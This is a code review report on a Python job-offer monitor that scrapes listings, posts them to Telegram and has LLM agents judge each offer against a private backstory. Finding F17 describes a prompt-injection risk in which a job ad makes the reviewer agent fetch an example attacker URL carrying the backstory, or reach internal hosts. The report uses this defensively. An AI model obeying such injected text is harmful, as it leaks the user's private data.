

# Offer monitor: pipeline report

Reviewed at commit `08bf858` (master, clean tree). The diff in focus is `HEAD~3..HEAD`:

- `a4e6c87` SQLite store split into `store/` and subscribers moved from `subscribers.json` into the DB
- `b7fe769` agent name tags on log lines
- `08bf858` one comment line

The rest of the package was read in full, because the pipeline crosses every module. All 87 tests pass
(`pytest -q`; Python 3.13.14, SQLite 3.50.4, langchain 1.4.7, langgraph 1.2.18, langchain-google-genai 4.4.2).

Claims marked **(verified)** were reproduced with a throwaway script outside the repo. The rest come from
reading the code.

The companion file [`pipeline-changes.md`](pipeline-changes.md) lists what to change and why.

---

## 1. What the system does

One long-running process (the monitor) does this every `interval` minutes:

1. Scrapes job offers from the configured sources: Profesia.sk HTML listings, and LinkedIn through a local
   MCP server that drives a logged-in browser.
2. Stores them in SQLite, de-duplicated.
3. Sends each new offer to every Telegram chat that sent `/start`.
4. Asks an LLM agent pipeline for a verdict on each new offer against the candidate backstory
   (GO / STRETCH / SKIP / UNREACHABLE), saves it, and edits the Telegram messages to add it.

Between scrapes it long-polls Telegram for `/start` and `/stop`. A lease row in the database keeps a second
monitor off the same DB (Windows `run-monitor.bat` and the Docker container share `./data`).

## 2. Module map

| Layer | Module | Role |
|---|---|---|
| Entry | `__main__.py` | CLI flow, logging, lease, main loop, `run()` (stages 1-4), `on_verdict` |
| | `cli.py` | argparse (`--once`, `--no-notify`, `--log`, `-v`); runs `subprocess.run("", shell=True)` at import to enable ANSI colors in old Windows consoles |
| Config | `config.py`, `settings.py`, `errors.py` | pydantic models for `data/configs/config.yaml` and each source's YAML; `ConfigError` names file and field |
| Sources | `providers/base.py` | `SourceProvider` ABC (`fetch`, `dedup_fetched`, `db_dedup`) and the typed `SourceProviderError` tree with `retryable` / `retry_after` |
| | `providers/__init__.py` | `SOURCES` registry, `build_providers` |
| | `providers/profesia_sk/` | `config.Query` builds URL and params; `scraper.scrape` pages; `parser.parse_listing` (BeautifulSoup) |
| | `providers/linkedin/` | MCP stdio client (`uvx mcp-server-linkedin@latest`), `collect` (search, then details), `parse_job_details` |
| Store | `store/db.py` | schema, `connect` (creates tables and runs migrations on every open), `now_iso` |
| | `store/jobs.py` | offers: insert, refresh, dedup, verdict |
| | `store/subscribers.py` | subscribers, update offset, message ids |
| | `store/lease.py` | single-monitor lease |
| Telegram | `telegram.py` | `Bot` HTTP client, `Subscribers`, `handle_updates`, `notify`, `format_job`, `format_verdict` |
| Agents | `agents/llm.py` | `init_chat_model` from the `model` section |
| | `agents/orchestrator.py` | orchestrator agent; `evaluate(url)` |
| | `agents/offer_reviewer.py` | reviewer agent, pydantic `Verdict`, `ToolStrategy`, `as_tool` |
| | `agents/tools.py` | `fetch_offer`: GET any URL with retries, strip to text, first 20 000 chars |
| | `agents/__init__.py` | `AGENT` ContextVar used for log tags |
| Shared | `http.py`, `text.py`, `models.py` | browser UA and Retry-After parsing, log shortening, `Job` / `Salary` / `Verdict` dataclasses |
| Unused | `globals.py` | empty file |

## 3. Process lifecycle (`main`, `__main__.py:270-410`)

1. **Arguments and output** (274-278). `--log FILE` points both `sys.stdout` and `sys.stderr` at one
   append-mode, line-buffered file.
2. **Logging** (283-303). Colors are off when logging to a file or when stdout is not a TTY. `basicConfig`
   uses the format `[time] LEVEL [agent] message`. A process-wide LogRecord factory sets `record.agent`
   from the `AGENT` ContextVar, so library log lines (httpx) are tagged too.
3. **Config** (308-313). `load_config()` reads `data/configs/config.yaml` **relative to the current working
   directory** (`config.py:7`). It resolves `db`, `backstory` and `telegram.subscribers` against the config
   folder. `build_providers` creates one provider per `providers` entry, and each provider reads its own YAML.
   Any `ConfigError` goes to `parser.error` (exit 2).
4. **Lease** (319-329).
   - The owner is `hostname:pid`.
   - `claim_lease` runs `BEGIN IMMEDIATE`. It refuses if another owner's heartbeat is less than 120 s old,
     otherwise it upserts the row.
   - A daemon thread (`keep_lease`, 251-266) renews the lease every 30 s. It sets an Event once the row is
     no longer ours.
   - SIGTERM is mapped to `KeyboardInterrupt`, so `docker stop` releases the lease.
5. **Telegram** (338-341). Set up only when there is a token and no `--no-notify`: `Bot(token)` and
   `Subscribers.load(db, legacy=subscribers.json)`. The first load on a DB without a `telegram_state` row
   imports the old JSON file once.
6. **Verdicts** (346, `build_review` 230-246). With no `model` section, verdicts are off. Otherwise it reads
   the backstory plus `projects/*.md`, builds the LLM and builds the orchestrator. Any exception gives a
   warning and turns verdicts off.
7. **`--once`** (351-362). One non-blocking `getUpdates`, one `run()`, then it waits for every verdict and
   exits with 0.
8. **Forever** (367-406). Each loop iteration:
   - Lease lost: cancel queued verdicts and return 1.
   - Run due: set `next_run = now + interval` **before** calling `run()`. So the interval is start-to-start,
     and a failed run waits a full interval. The log message "retrying in 30 s" is misleading.
   - With Telegram, long-poll `getUpdates` for `min(30, remaining)` s. Without it, sleep `min(remaining, 30)`.
   - `TelegramAuthError` exits with 2. Any other `TelegramError` or `Exception` is logged, then a 30 s sleep.
   - `KeyboardInterrupt` cancels queued verdicts. Running ones keep going. Return 0.
9. **Finally** (407-410). Delete the lease row if it is still ours. Python then waits for the verdict worker
   threads that are still running (they are not daemon threads), **after** the lease is gone.

## 4. One cycle: `run()` (`__main__.py:121-188`)



### Stage 1: fetch (139-147), no DB access

For each provider, in config order, `fetch_source(provider)` (80-118) does this:

- It calls `provider.fetch()` up to `retry.attempts` times.
- It catches **only** `SourceProviderError`:
  - A non-retryable error (`Blocked`, `Auth`, `Layout`) gives up at once.
  - A retryable error sleeps `e.retry_after` (no upper limit) or `retry.delay`, then retries the **whole
    provider**, all its searches included.
- Giving up returns `None`, and the provider is skipped this cycle. Any other exception type propagates out
  of `run()` and aborts the cycle.

Then `provider.dedup_fetched(jobs)` drops repeated `(source, id)` pairs inside the fetch and keeps the first.

**Profesia** (`ProfesiaProvider.fetch`, then `scrape` per search):

- It requests
  `GET https://www.profesia.sk/praca/<segments>/?search_anywhere=..&sort_by=relevance&page_num=N` plus
  `remote_work`, `salary` / `salary_period` and `count_days` when they are set.
- It reads up to `pages` pages, with `delay` between pages and no delay between searches.
- A failure on page 1 raises. A failure on a later page keeps what was already collected.
- `parse_listing` reads the `li.list-row` cards. Rows present but none parsed raise `ProfesiaLayoutError`.
- A new `requests.Session` is created per search. The intended browser User-Agent is **not** sent (F6).

**LinkedIn** (`LinkedInProvider.fetch`):

- It uses `asyncio.run` with a 300 s overall limit and starts `uvx mcp-server-linkedin@latest` over stdio.
- For each configured search it calls `search_jobs`. A failed search is skipped; an auth error aborts.
- It merges the IDs in result order, then calls `get_job_details` for **every** ID, with `delay` between
  calls.
- It parses only the header lines: company, title, `location · posted`, and the work-type labels. The full
  description in the reply is discarded.
- On timeout it returns the jobs parsed so far. Every non-typed exception becomes
  `LinkedInUnavailableError`, which is retryable.

### Stage 2: store (152-161), one transaction

1. `before = COUNT(*)`.
2. For each provider:
   - `db_dedup` calls `known_ids(conn, source, ids)`
     (`SELECT id ... WHERE source=? AND id IN (...)`) and keeps the unseen offers.
   - `refresh_known` updates title, url, company, location, salary, labels, posted_text and `last_seen` of
     every fetched offer that already exists. It leaves uuid, `first_seen` and the verdict alone.
3. `store_new(conn, new, seen_at)`:
   - It loads `(title, company)` of **every** row and builds a normalized key: whitespace collapsed,
     casefolded, `None` when there is no company.
   - Each new offer gets `first_seen = last_seen = seen_at` and a uuid.
   - **All** new offers are inserted. Only those whose key is not already taken (in the DB, or earlier in
     the batch) come back as `added`.
4. Commit when the `with conn` block exits. Then print the `NEW ...` lines and
   `Scraped X, new Y, dup Z, total T`.

### Stage 3: notify (173-181), synchronous

This runs only when Telegram is on and `added` is not empty.

- `notify(bot, subs, added)` sends one HTML message per offer per chat (`format_job`), with a 1 s sleep
  between messages to the same chat.
- `TelegramBlockedError` (403, or "chat not found") unsubscribes the chat and skips its remaining offers.
- Any other `TelegramError` also skips that chat's remaining offers.
- It returns `{uuid: {chat_id: message_id}}`.
- Then `subs.save()` runs if chats were removed, and `save_message_ids` runs in a new transaction.

### Stage 4: verdicts (185-188), asynchronous

For each offer in `added`, the code calls `VERDICTS.submit(review, job.url)`. `VERDICTS` is a pool with 2
threads and an unbounded queue. Each future gets a done-callback, `on_verdict(db, bot, job, message_ids)`.
`run()` returns right away.

`on_verdict` (192-220) runs in the worker thread:

- A cancelled future is ignored.
- An exception is logged with `logging.exception`, and nothing else happens.
- Otherwise it calls `save_verdict` (own connection, own transaction), then `editMessageText` with
  `format_verdict(job)` for every chat that got the offer. A failed edit is logged for that chat only.

## 5. Verdict pipeline (agents)

`review = partial(evaluate, orchestrator)`.

```
evaluate(url)                                  AGENT = "orchestrator"
 └ orchestrator (create_agent, tools=[offer_reviewer],
   response_format=ToolStrategy(Verdict), tool_choice forced to "any")
     LLM call 1: calls offer_reviewer(url)
     └ review_offer(url)                        AGENT = "offer_reviewer"
        └ reviewer (tools=[fetch_offer]; system prompt = duties + research method
          + language rule + backstory + pet projects)
            LLM call: fetch_offer(url)
              requests.get; retry on 429/502/503/504 (5/15/45 s + jitter,
              Retry-After capped at 120 s); drop script/style; first 20 000 chars
            LLM call (optional): fetch_offer(company site)
            LLM call: Verdict(tag, content, url); pydantic-validated, an invalid one is re-asked
        returns the Verdict as JSON
     LLM call 2: Verdict(tag, content, url), copying the reviewer's answer word for word
 └ returns models.Verdict(tag, content, url=<the input url>)
```

- **Cost per offer:** at least 4 LLM calls (2 orchestrator, 2 or more reviewer). The whole backstory is in
  every reviewer call. The report, up to 3000 characters, is generated twice: once by the reviewer, then
  copied by the orchestrator.
- **Errors:** an error inside the reviewer tool (LLM or API error) propagates. LangGraph's default handler
  only turns `ToolInvocationError` into a message. So `evaluate` raises, and `on_verdict` only logs it.
- **No timeout:** the chat model has none. `langchain-google-genai` 4.4.2 defaults to `timeout=None` and
  `max_retries=6` **(verified)**.
- **LinkedIn offers:** they are reviewed by fetching `linkedin.com/jobs/view/<id>/` anonymously. LinkedIn
  often answers bots with an auth wall or a non-standard status 999, and `raise_for_status()` does not
  raise for 999 **(verified)**. The model then reads a stub page and usually answers UNREACHABLE.

## 6. Telegram subsystem

- **Transport.** `Bot.call` POSTs JSON to `api.telegram.org/bot<token>/<method>`. It retries once on a
  network error, a non-JSON reply, or a 429 with `retry_after`. Other errors become typed exceptions. The
  token is removed from network error text.
- **Subscription.** Anyone who sends `/start`, in a private chat or a group, is added. `/stop` removes the
  chat. Every command gets a reply. **There is no allowlist.**
- **State.** The `subscribers` and `telegram_state(update_offset)` tables are written as a full snapshot
  (`DELETE`, then re-insert) in one transaction.
- **Shared session.** One `requests.Session` is used by the main thread (long-poll, notify) and by both
  verdict threads (edits).

## 7. Persistence

Schema (`store/db.py`):

| Table | Key | Content |
|---|---|---|
| `offers` | `uuid` PK, `UNIQUE(source, id)` | listing fields, `salary` / `labels` as JSON, `first_seen`, `last_seen`, `verdict_tag` / `verdict_content` / `verdict_url` |
| `offer_messages` | `(offer_id, chat_id)` | the Telegram message id each chat got for each offer |
| `subscribers` | `chat_id` | name, subscribed_at |
| `telegram_state` | `id = 1` | next `getUpdates` offset |
| `monitor_lease` | `id = 1` | owner, heartbeat |

- **Transactions.** Rollback-journal mode (the default), the Python default 5 s busy timeout, and legacy
  implicit transactions. Callers wrap writes in `with conn:`.
- **Schema on every open.** `connect()` runs the whole `CREATE TABLE IF NOT EXISTS` script and both
  migration checks on **every** open: each cycle, each 30 s heartbeat, each verdict, each subscriber save.
  These statements do not take a write lock **(verified)**, so this costs work but causes no contention.
- **No pipeline state.** No column records whether an offer was sent or whether its review failed. An
  offer's state is known only in memory, as "returned in `added` in the cycle that inserted it".
- **Shared with the viewer.** The `sqlite-web` viewer in docker-compose reads and writes the same file.
  While any connection holds a read transaction, other writers fail with `database is locked` after 5 s
  **(verified)**.

## 8. Concurrency model

| Thread | Lifetime | Touches |
|---|---|---|
| main | process | config, providers (blocking HTTP, `asyncio.run`), DB (stages 2-3, subscribers), Telegram (getUpdates, send) |
| `lease` (daemon) | process | DB every 30 s |
| `verdict_0`, `verdict_1` | pool | LLM, any web URL, DB (`save_verdict`), Telegram (edit) |
| LangGraph internal | per tool call | runs `review_offer` / `fetch_offer` with a copied context, so the `AGENT` tag follows |

Each thread opens its own SQLite connection for each operation. The Telegram `requests.Session` is shared.

## 9. Failure matrix: where work is lost

| Event | Effect | Recovered later? |
|---|---|---|
| Source raises a typed retryable error | retried, then skipped this cycle | yes, next cycle |
| Source raises any other exception (for example a parser `ValueError` or `KeyError`) | `run()` aborts, and **every** provider's results for this cycle are discarded | only when the cause goes away; otherwise it repeats every cycle |
| Stage 2 DB error | cycle aborted before commit | yes, the offers are still new next cycle |
| Telegram error while notifying a chat | that chat misses the rest of this batch | **no**: the offers are already committed |
| Crash or stop between the stage 2 commit and the end of notify | offers stored but not sent | **no** |
| Stage 3 DB error (`save_message_ids`, `subs.save`) | `run()` aborts before stage 4, so no verdict for the whole batch **(verified)** | **no** **(verified)** |
| Review raises (LLM, API, network) | logged | **no** |
| `save_verdict` fails in the callback (for example DB locked by the viewer) | verdict thrown away, messages not edited | **no** |
| Ctrl+C, SIGTERM or lease lost while reviews are queued | queued reviews cancelled | **no** |
| Reviews running at shutdown | they run on after the lease is released; `docker stop` kills them after 10 s | **no** |
| Reviewer answers UNREACHABLE (for example the LinkedIn auth wall) | stored as the final verdict | **no** |

## 10. Architecture critique

### Strengths

- **Clear layers.** Providers know nothing about the DB or Telegram, apart from one leftover (F4). The store
  is SQL only. The agents sit behind a single `review(url)` call.
- **Retry contract.** The typed source errors with `retryable` and `retry_after` make retries easy to
  reason about.
- **Strict config.** Validation uses `extra="forbid"`, and errors name the file and the field.
- **Careful lease.** `BEGIN IMMEDIATE`, heartbeat, takeover detection and same-owner reclaim are a
  thoughtful answer to "two runtimes, one DB".
- **Tested hygiene.** Token scrubbing, HTML escaping, message-length trimming (the infinite loop is fixed in
  `a4e6c87`) and Retry-After handling are all there and tested.
- **One transactional store.** Moving subscribers from JSON into the DB removes a second store that had no
  transactions. The legacy import runs once and is tested.
- **Validated verdicts.** The switch to a pydantic `ToolStrategy` means an invalid verdict (unknown tag,
  blank content) is sent back to the model and never stored.

### Weaknesses

1. **The pipeline is fire-and-forget, not resumable.** Stages 3 and 4 run only for the in-memory `added`
   list of the cycle that inserted the offers. The DB records "stored", but not "sent" or
   "reviewed / failed / attempts". So every failure after the stage 2 commit is permanent (section 9). This
   one design choice causes F1, F2, F3 and F11. A small state model in the DB fixes all four at once.
2. **De-duplication happens after the expensive step.** Stage 1 has no DB access on purpose, so LinkedIn
   reads the details of every search hit on every cycle, and only stage 2 drops the known ones. With a
   300 s budget, that starves new offers (F4).
3. **The verdict pipeline fetches data the scraper already had.** LinkedIn's `get_job_details` returns the
   full description, which is thrown away. The reviewer then fetches the public URL anonymously, and
   LinkedIn often blocks that (F7).
4. **The orchestrator is a pass-through.** It has one subagent, makes one call and returns the result
   unchanged. That adds 2 LLM calls per offer, generates up to 3000 characters a second time, and gives the
   model a chance to change the report. It is worth keeping only when there are several subagents to route
   between.
5. **One SQLite file is shared by a Windows process, a Linux container and a web editor**, over a Docker
   Desktop bind mount.
   - The lease depends on SQLite file locks working across that boundary, and on two machines' clocks
     agreeing.
   - SQLite does not guarantee locking through the Windows-to-Linux-VM file-sharing layer, and Docker
     Desktop's VM clock is known to drift after the host sleeps.
   - The docker check in `run-monitor.bat` helps. The safest design is still one runtime per DB file.
6. **Notify runs synchronously inside the scrape loop.** N offers × M chats × 1 s blocks the main loop and
   the `/start` replies. A first run, or a newly added search, can produce hundreds of messages and hundreds
   of LLM runs (F12).
7. **The bot is open.** Anyone on Telegram can subscribe, yet the verdict content comes from a private
   backstory (F9). The reviewer also has an unrestricted web GET tool while the backstory is in its
   context, so a prompt injection in a job ad can leak data (F17).
8. **Coupling between modules.**
   - `telegram.py` imports `providers` to get labels, which pulls in the LinkedIn provider and `mcp`.
   - `providers/linkedin/provider.py` imports the store on a path that is never used.
   - `Verdict` exists twice (a dataclass and a pydantic model), and the tag list is in three places.
9. **Operations.**
   - The config is found relative to the working directory.
   - `mcp-server-linkedin@latest` and every Python dependency are unpinned.
   - The example configs point to a README section, but `README.md` was deleted in `f973092`.

## 11. Findings

Severity is about the impact on this single-user tool:

- **High:** offers, notifications or verdicts are silently lost, or a source is effectively blind.
- **Medium:** results are wrong or degraded, or there is a privacy problem.
- **Low:** edge cases.

| # | Sev | Where | Finding |
|---|---|---|---|
| F1 | High | `__main__.py:194-204` | A failed or thrown-away verdict is never retried; nothing re-queues offers with `verdict_tag IS NULL` |
| F2 | High | `__main__.py:175-188` | A DB error in stage 3 ends `run()` before stage 4, so the whole batch never gets a verdict **(verified)** |
| F3 | High | `telegram.py:271-280` | A failed send drops the rest of the batch for that chat permanently |
| F4 | Med | `providers/linkedin/provider.py:101-118, 154-163` | Known IDs are dropped only in stage 2, after their details were read; with enough searches the 300 s limit can starve new IDs; `get_known` / `db` is dead code |
| F5 | Med | `__main__.py:86-89` | A non-typed exception from one provider aborts the whole cycle for every provider |
| F6 | Med | `providers/profesia_sk/scraper.py:50` | The browser User-Agent is never sent; requests go out as `python-requests/2.34.2` **(verified)** |
| F7 | Med | `agents/tools.py:43-52` | LinkedIn offers are fetched anonymously; a 999 status passes `raise_for_status()` **(verified)**; the MCP description is thrown away |
| F8 | Med | `providers/profesia_sk/config.py:58` | Relevance sort plus a page cap means new offers outside the top pages are never seen; the fixture reports 65 hits for 60 rows read |
| F9 | Med | `telegram.py:199-204` | Open `/start`: any Telegram user gets every offer and verdicts built from the backstory |
| F10 | Med | `store/jobs.py:84-97` | Title + company dedup has no time window and ignores location: a re-post or a second team's same-titled role is never sent or reviewed |
| F11 | Med | `__main__.py:403-410` | The lease is released before running verdict workers finish; they keep writing to the DB and Telegram without it |
| F12 | Med | `__main__.py:174-188` | A first run or a new search floods Telegram and the LLM with the whole backlog |
| F13 | Low | `agents/llm.py:30-36` | No LLM timeout: a hung call holds one of the two workers forever |
| F14 | Low | `__main__.py:107-117` | The source's Retry-After sleep has no upper limit and blocks the main loop |
| F15 | Low | `config.py:44` | Duplicate provider keys cause an `IntegrityError` on every cycle **(verified)** |
| F16 | Low | `__main__.py:257-263` | The heartbeat thread catches only `sqlite3.Error`; any other exception kills it silently and the lease lapses |
| F17 | Low | `agents/tools.py:38-52` | Unrestricted fetch tool with the backstory in context: SSRF and exfiltration through prompt injection |
| F18 | Low | `telegram.py:68-86` | One `requests.Session` shared by 3 threads; `sendMessage` retried after a read timeout can send duplicates |
| F19 | Low | `config.py:7` | Config path is relative to the working directory; scheduled `--log` runs from another directory fail |
| F20 | Low | `providers/linkedin/provider.py:30` | `mcp-server-linkedin@latest` runs unpinned against the logged-in browser |
| F21 | Low | `__main__.py:387-393` | `int()` truncation makes the loop spin for up to 1 s every interval |
| F22 | Low | `config.py:27`, `config.example.yaml:12` | The legacy `subscribers` default resolves to `data/configs/subscribers.json`, while the example (now labelled "unused") uses `../subscribers.json`. Deleting the line before the first run of the new version silently drops every subscriber |

### Finding details

- **F1.** `on_verdict` logs an exception and returns. The offer row keeps `verdict_tag = NULL`, and nothing
  ever selects such rows again. The same holds when `save_verdict` raises inside the callback: the paid LLM
  result is thrown away and the messages are not edited. It also holds for futures cancelled at shutdown,
  and for UNREACHABLE answers caused by a short outage.
- **F2.** Stage 3 writes to the DB twice (`subs.save()`, then `save_message_ids`). If either raises (for
  example `database is locked` while the viewer holds a read transaction), the exception leaves `run()`
  before stage 4. The offers are already committed, so the next cycle does not see them as new, and none of
  them is ever reviewed. The probe confirmed that no review ran, in that cycle or the next.
- **F3.** Any `TelegramError` that is not a block (a network error after the one retry, a 429 after the one
  retry, a 400 such as "message is too long") breaks out of that chat's loop. The comment says "skip this
  chat for now", but nothing sends those offers later.
- **F4.** Commit `a739590` moved the known-ID check out of `collect()` into stage 2
  (`db_dedup` → `known_ids`, `__main__.py:157`). Duplicates are therefore still caught: a stored offer is
  never re-sent or re-reviewed. The problem is *when* the check runs. `get_job_details` now runs for
  every search hit before the check, about 5 s each (browser plus the delay). With the defaults
  (`past_24_hours`, 1 page, about 25 IDs per search), two or more searches approach the 300 s limit.
  Once it is hit, the run stops in result order. New IDs ranked below the stored ones are then not read
  that cycle and can stay unread while the stored ones stay on top. The repeated detail reads also add
  traffic on the user's logged-in LinkedIn account. `LinkedInProvider.get_known(db)` was added in the same
  commit, but nothing calls it and `build_providers` never passes `db` (dead code).
  Trade-off of skipping early: `refresh_known` would no longer update `last_seen` and other fields for stored
  LinkedIn offers. Nothing reads them today.
- **F5.** `fetch_source` catches only `SourceProviderError`. In `parse_row`, `int(link["id"]...)` and
  `link["href"]` can raise `ValueError` / `KeyError` when a single card changes. That exception ends
  `run()` and throws away the LinkedIn results already fetched (5 minutes of browser work), on every cycle
  until the code is fixed.
- **F6.** `requests.Session().headers` already contains `User-Agent: python-requests/x`, so `setdefault`
  never applies `USER_AGENT`. A 403 is `SourceBlockedError`, which is not retryable, so a block makes the
  source go dark.
- **F7.** For LinkedIn, `job.url` is `linkedin.com/jobs/view/<id>/`. Anonymous requests often get the auth
  wall, or status 999, which `raise_for_status()` accepts. Following its prompt, the model answers
  UNREACHABLE, and that is stored for good (F1). Meanwhile the fixture
  `tests/fixtures/linkedin_job_details.txt` shows that the MCP reply holds the full requirements and salary.
- **F8.** `sort_by: relevance` with `pages: 3` (60 rows) reads only the top 60 hits. The page-1 fixture
  reports `"count":65` for the `c#` search. A new offer that ranks below row 60 is not seen while it stays
  there. A monitor needs newest-first order.
- **F9.** `handle_updates` subscribes any chat that sends `/start`. Verdict reports list backstory evidence
  per requirement and "CV directives (Emphasize / Downplay)", so anyone who finds the bot's username can
  read the user's private career profile.
- **F10.** `_dup_key` is `(title, company)` only, checked against every row ever stored. Big employers post
  the same title for different teams and cities, and companies re-post roles months later. All of those are
  stored but never sent and never reviewed.
- **F11.** On `KeyboardInterrupt`, the code calls `shutdown(wait=False, cancel_futures=True)`, returns, and
  the `finally` releases the lease. Python then waits for the running workers, which still call
  `save_verdict` and `bot.edit`, now without the lease. A new monitor can start in that window. Under
  `docker stop`, they are killed after 10 s anyway, so the work is lost (F1).
- **F12.** On an empty DB, or after adding a search, every listing offer is new. Profesia alone can return
  `pages × 20 × searches` offers, so 120 offers is easy to reach. That means 120 messages per chat (each chat
  takes about 2 minutes, blocking the loop) and 120 agent runs of at least 4 LLM calls each.
- **F13.** `init_chat_model` passes neither `timeout` nor `max_retries`. One hung HTTP call holds a worker
  forever. With two hung calls, every verdict stalls and the unbounded queue keeps growing.
- **F14.** `wait = e.retry_after` is used as-is. A `Retry-After: 3600` freezes the main loop for an hour:
  no `/start` replies and no other sources.
- **F15.** `providers: [profesia, profesia]` passes validation. Both providers return the same offers, both
  are new against the DB, and `insert_jobs` raises `UNIQUE constraint failed` on every cycle.
- **F16.** An `OSError` from `connect()` (for example `mkdir` on a flaky mount), or any other non-sqlite
  error, ends the heartbeat thread without setting `lost`. After 120 s another monitor may take over while
  this one keeps running, which is the duplicate-notification case the lease was meant to prevent.
- **F17.** The reviewer prompt contains the full backstory, and `fetch_offer` accepts any URL, follows
  redirects and has no size or content-type limit. A crafted job ad can tell the model to fetch
  `https://attacker/?q=<backstory text>`, or to reach internal hosts such as `http://viewer:8080` inside the
  compose network.
- **F18.** The main thread long-polls and sends, while the verdict threads edit, all through one
  `requests.Session`, which is not documented as thread-safe. `Bot.call` also retries `sendMessage` after a
  `ReadTimeout`, when Telegram may already have delivered the message.
- **F19.** `--log` is documented "for scheduled runs without a console". Task Scheduler starts in
  `C:\Windows\System32` unless "Start in" is set, and then the config is not found.
- **F20.** Each LinkedIn run may download a new release of a third-party server that controls the
  logged-in browser profile.
- **F21.** When less than 1 s is left before the next run, `wait = 0`. That causes repeated `getUpdates`
  calls with `timeout=0` (HTTP requests), or `sleep(0)` spins, until `next_run`.
- **F22.** Introduced by the comment change in `a4e6c87`. The import only happens when the legacy path
  exists, and a missing file is silent.

### Cleanup (no behavior bug)

- **C1.** Orchestrator pass-through (see weakness 4).
- **C2.** `connect()` runs schema creation and migrations on every open. Run them once at startup instead.
- **C3.** `store_new` reads `title, company` of the whole table on every cycle. Store a `dup_key` column
  with an index instead.
- **C4.** Dead code:
  - `globals.py` (empty)
  - `LinkedInProvider.get_known` and its `db` argument
  - `get_job` and `insert_jobs`, exported but used only by tests and internally
  - the empty `#` comment at `__main__.py:382` added by `08bf858`
- **C5.** `cli.py:31` starts a shell at import time on every platform (Docker and tests included). It is
  only needed on Windows consoles.
- **C6.** `models.Verdict` (dataclass) and `agents.offer_reviewer.Verdict` (pydantic) are the same type
  defined twice. The tag list appears in the pydantic `Literal`, in `VERDICT_EMOJI` and in a comment.
- **C7.** The retry policy works at the provider level, so a 5xx on search 3 re-scrapes searches 1 and 2.
- **C8.** "run failed; retrying in 30 s" is not true for a failed `run()`: it retries at the next interval.
- **C9.** There is no delay between Profesia searches (only between pages).
- **C10.** Two example configs point to README sections that no longer exist.

### Diff-specific notes (`HEAD~3..HEAD`)

- **Clean:**
  - The split into `store/` keeps every query, and the re-exports keep imports working.
  - The legacy subscriber import runs once and is tested.
  - The `format_verdict` loop now stops when the content is empty.
  - The pydantic `ToolStrategy` validates tags and blank content.
  - `evaluate` keeps the input URL.
  - Agent log tags are propagated and reset correctly. The tests show this across LangGraph's threads.
- **Introduced or exposed:**
  - F22 (the "unused" comment).
  - `Subscribers.save()` now takes part in SQLite locking with the viewer, which makes F2 more likely than
    with the old JSON file.
  - C4 (the empty comment).
- **Conventions:** there is no `CLAUDE.md` at user level, in the repo root or in any directory, so there is
  nothing to check against.
